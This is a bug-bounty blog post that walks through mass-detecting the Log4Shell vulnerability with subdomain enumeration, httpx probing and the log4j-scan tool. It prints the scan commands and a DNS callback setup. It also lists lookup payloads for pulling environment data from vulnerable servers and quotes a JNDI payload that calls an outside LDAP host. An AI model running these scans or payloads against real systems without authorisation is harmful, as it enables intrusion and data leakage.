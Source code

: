 ```yaml
---
title: "Finding Log4j (The skiddie way)"
date: 2021-12-18T17:17:04+05:30
draft: true
tags:
  - bugbounty
  - shorts
  - log4j
---
```



## About
So the past week the internet was on fire, log4j CVE dropped and it dropped hard. It was like as if people were running for their lives, 
putting out fires. And it got even worse after the infosec community quickly started hunting for this vulnerability. 
Today let’s take a dig into vulnerability  and learn how to find it (The skiddie way).

## What is Log4j CVE-2021-44228
I guess you already know about it, if not then here are some great resources:
* [NIST](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* [Lunasec article](https://www.lunasec.io/docs/blog/log4j-zero-day/)
* [John Hammond's video explaintaion](https://www.youtube.com/watch?v=7qoPDq41xhQ)

## How to quickly find it in your organization/anywhere
We will need a few tools for this,
* [subfinder](https://github.com/projectdiscovery/subfinder)
* [assetfinder](https://github.com/tomnomnom/assetfinder)
* [httpx](https://github.com/projectdiscovery/httpx)
* [log4j-scan](https://github.com/fullhunt/log4j-scan)
* Burp Collaborator or any custom callback dns host (ex: dnslog.cn)

First we need to find all subdomains for a particular scope, let's say "example.com", here's a quick one-liner to do that

```shell
{ subfinder -silent -d <domain> ; assetfinder -subs-only <domain> } | sort -u | tee subs.txt
```



This will create a subs.txt file containing subdomains for the given domain (crowdsourced).

![Subdomains](/images/find-log4j/1.png)



Now we have to probe these subdomains to find which of them have a web application hosted 

```shell
cat subs.txt | httpx -silent -title -status-code -ports 80,443,5000,8080,8000 | awk '{print $1}' | tee endpoints.txt
```

The above one-liner will get us the URLs for all the hosted web applications, now all we have to do it pass it to the log4j-scan tool and it will
do all the magic by itself.


```shell
python3 log4j-scan.py -l endpoints.txt --custom-dns-callback-host <Burp collab url> --run-all-tests
```

After running this, if we get a dns callback on our burp collaborator (or other dns service that you are using), then it proves the particular web application might be vulnerable to log4j CVE-2021-44228.

It should look something like this:

![DNS callback](/images/find-log4j/2.png)

You can use the following payloads to fetch more information usign this vuln:

* ${hostName}
* ${whoami}
* ${java:os}
* ${env:USER}


## What does this Log4j-Scan tool do ?

Well to this tool inserts the most used jndi payloads (ex: {jndi:ldap://mydogsbutt.com/a}) in multiple headers and params of the request. If the web application uses log4j to log any of these parameters or headers, then it might trigger the payload. An example of request sent by log4j-scan is shown below

![Burp Proxy](/images/find-log4j/3.png)


## Conclusion
So this was a quick walkthrough of the skiddie way to find log4j vuln. If you're lucky and score a bounty, feel free to [buy me a beer](https://buymeacoffee.com/ev1lm0rty) ;)
